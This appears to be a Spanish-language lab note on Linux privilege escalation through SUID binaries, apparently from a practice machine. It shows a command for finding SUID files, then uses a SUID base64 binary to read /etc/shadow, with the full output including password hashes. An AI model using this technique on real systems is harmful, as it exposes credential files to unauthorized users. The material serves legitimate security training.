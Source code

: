# SUID

Gran parte de los controles de privilegios de Linux se basan en controlar las interacciones de los usuarios y los archivos. Esto se hace con permisos. A estas alturas ya sabes que los archivos pueden tener permisos de lectura, escritura y ejecución. Estos se otorgan a los usuarios dentro de sus niveles de privilegio. Esto cambia con SUID (Establecer identificación de usuario) y SGID (Establecer identificación de grupo). Estos permiten que los archivos se ejecuten con el nivel de permiso del propietario del archivo o del propietario del grupo, respectivamente.

Notarás que estos archivos tienen un bit "s" configurado que muestra su nivel de permiso especial.

```shell
find / -type f -perm -04000 -ls 2>/dev/null
```

<figure><img src="../../.gitbook/assets/20231008154240.png" alt=""><figcaption></figcaption></figure>

### Ejemplo

El binario que se puede hacer uso es:

```bash
/usr/bin/base64
```

<pre class="language-shell"><code class="lang-shell"><strong>1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
</strong>
</code></pre>

Con este binario se puede leer archivos donde se alamacena credenciales, lo cual permite que leer el \`/etc/shadow\`

```shell
sudo install -m =xs $(which base64) .

LFILE=file_to_read
./base64 "$LFILE" | base64 --decode
```

```shell
karen@ip-10-10-252-158:/home/ubuntu$ LFILE=/etc/shadow
karen@ip-10-10-252-158:/home/ubuntu$ base64 "$LFILE"| base64 --decode
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:18796::::::
ubuntu:!:18796:0:99999:7:::
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::
karen@ip-10-10-252-158:/home/ubuntu$ 
```
